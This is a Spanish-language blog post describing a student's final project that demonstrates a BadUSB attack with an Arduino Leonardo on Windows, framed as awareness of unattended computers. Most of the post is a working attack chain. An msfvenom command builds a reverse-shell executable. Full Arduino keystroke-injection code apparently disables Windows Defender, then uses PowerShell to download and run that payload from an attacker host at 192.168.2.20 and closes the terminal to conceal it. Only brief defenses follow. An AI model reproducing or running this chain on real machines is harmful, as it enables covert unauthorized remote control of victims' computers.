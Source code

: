 ```yaml
---
title: Mi Trabajo de Fin de Grado ASIR
published: true
---
```


# Titulo: "WorseCase"

![imagen](https://github.com/user-attachments/assets/385088de-2157-423a-ad6a-4047414cbdf1)

Buenas, en este post hablaremos sobre mi Trabajo de Fin de Grado (TFG) que realicé este año para completar el grado superior de Administrador de Sistemas Informáticos en Red (ASIR).

# Introducción

En este trabajo, se comprobará el peligro que supone para cualquier persona u organización dejar los equipos sin control y manipulables por cualquier persona. Se demostrará utilizando un placa “Arduino Leonardo” cómo se puede llegar a tener acceso remoto sin tocar el teclado y de forma rápida.

Además se explicará hasta donde puede llegar esta herramienta y de que formas se puede neutralizar este ataque.

El objetivo final es demostrar el peligro de dejar desatendido el equipo y como mejorar la seguridad de los sistemas.

# Recursos a utilizar

**Máquina virtual:** Se utilizará una máquina virtual con sistema operativo Windows para crear un entorno de prueba para probar el funcionamiento de la placa.

**Arduino IDE:** Software para programar y subir scripts a las placas Arduino

**Placa Arduino Leonardo:** Placa que tiene compatibilidad con HID (Human Interface Device)

**Netcat:** Una herramienta para recibir una conexión remota y tener acceso al equipo

**Msfvenom:** Herramienta de línea de comandos que se utiliza para generar payloads personalizados para una amplia variedad de sistemas operativos y arquitecturas.

**Powershell:** Es una interfaz de consola con posibilidad de escritura y unión de comandos por medio de instrucciones.

# Prueba de Concepto

Se creará un script que sea ejecutable por la placa Arduino, conectaremos por USB a la máquina víctima la placa y creará una conexión remota a la máquina atacante dandole acceso de forma no autorizada.

![imagen](https://github.com/user-attachments/assets/43b88527-472d-46a1-85df-08942b39664f)

## Creación de exploit con msfvenom

Seleccionamos el payload, indicamos el host que recibirá la conexión, el puerto que debe conectarse, arquitectura del archivo, extensión y el nombre del archivo

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.20 LPORT=9001 -a x64 -f exe -o eskere.exe

![imagen](https://github.com/user-attachments/assets/a62ba1a0-7495-42fc-b5eb-61de04e890a9)

Por ultimo abriremos un servidor http con python con el archivo malicioso generado y dejaremos escuchando

![imagen](https://github.com/user-attachments/assets/e9f537e6-064c-43b5-a772-61bc4d1b567d)


## Configuración de placa Arduino

Para que el ataque funcione debemos verificar y subir el código a la placa. Este código realiza todos los pasos de forma automática el proceso para vulnerar la máquina.

Con este codigo podremos activar la placa si realizamos un puente con el puerto de tierra y con el puerto 2

```arduino
#include <Keyboard.h>
void typeKey(uint8_t key){
Keyboard.press(key);
delay(50);
Keyboard.release(key);
}
void setup() {
pinMode(2,INPUT);
digitalWrite(2,HIGH);
Keyboard.begin();
while(digitalRead(2)){
}
delay(2000);
Keyboard.write(KEY_LEFT_GUI);
Keyboard.releaseAll();
delay(2000);

Keyboard.println("windows se");
delay(3000);
Keyboard.println("");delay(3000);
Keyboard.println("");
delay(3000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.write(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.println("cmd");
delay(3000);
Keyboard.println("");
delay(2000);

Keyboard.print("powershell iwr -uri http://192.168.2.20:8000/eskere.exe -OutFile ./eskere.exe -UseBasicParsing");
delay(2500);
Keyboard.println("");
delay(3500);

Keyboard.println("eskere.exe");
delay(3500);

Keyboard.println("");
delay(2500);

Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(KEY_F4);
delay(100);
Keyboard.releaseAll();
```

## Ataque

la placa, se conectará a la placa un cable que conecte el puerto GND y al puerto 2. Después se conectará por el puerto USB a la máquina victima y el script de la placa se ejecutará.

Al ejecutar el script, el proceso automático será el siguiente:

> 1º Accederá al panel de “Windows Defender”, lo desactivará y lo cerrará.

> 2º Abrirá una terminal “CMD” y ejecutará un comando de powershell para descargarse de la máquina atacante el archivo que permitirá la conexión remota.

> 3º Ejecutará el archivo malicioso y cerrará la terminal, haciendo como si nada hubiera ocurrido.

Cuando termine el proceso, tendrá en la pantalla de la máquina atacante una conexión remota y control total a la máquina victima.

### Video
[Video de prueba de concepto](https://drive.google.com/file/d/1IH2ce5XjQ3JLyCjTIZH3coHuVfHw2f7v/view?usp=sharing)

# Defensas
Ante este tipo de ataques existen muy pocas medidas de seguridad, es por eso que se deberá concienciar de los peligros que puede suponer a los usuarios que utilicen ordenadores.

Para defenderse contra estas placas se aconseja:

- No dejar desatendido cualquier equipo, con tan solo bloquear el equipo mientras no se utilice ya deja inutilizada a la placa.

- Bloquear físicamente o desde la BIOS cualquier puerto USB que no se vaya a utilizar para que al conectar la placa no pueda ejecutar nada.

# Conclusión

En conclusión, el proyecto explica la creación de un ataque por USB que podría inutilizar un equipo o sistema y securización de este. Implementando medidas de seguridad para mitigar el impacto de este ataque, logrando la protección y seguridad de equipos personales o empresariales.

¡Espero que os haya gustado el post!

![ZRPK](https://github.com/user-attachments/assets/efd20496-6fbc-41d6-af7b-84471c9bc893)
